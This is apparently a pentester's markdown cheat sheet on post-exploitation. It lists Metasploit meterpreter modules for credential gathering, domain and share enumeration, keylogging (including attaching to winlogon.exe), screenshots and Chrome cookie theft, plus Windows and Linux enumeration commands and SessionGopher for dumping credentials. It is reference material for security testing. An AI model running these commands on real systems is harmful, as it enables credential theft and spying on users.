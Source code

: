 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /all`
* __Powershell__
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Other tools
* SessionGopher - dump local credentials (Windows)

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

